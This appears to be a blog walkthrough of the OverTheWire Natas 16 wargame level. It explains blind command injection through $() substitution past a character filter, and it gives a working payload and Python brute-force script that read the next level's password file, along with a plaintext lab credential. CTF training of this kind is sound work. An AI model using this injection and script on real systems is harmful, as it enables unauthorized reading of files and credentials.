


Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form: ; | & ` \' "

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( & ) and OR ( | ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

```bash
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
```

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
```bash
grep -E ^a.* /etc/natas_webpass/natas17
```
Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

```python
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
```

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.



That's it.  The final character string at the bottom was in fact the correct password for Natas 17.
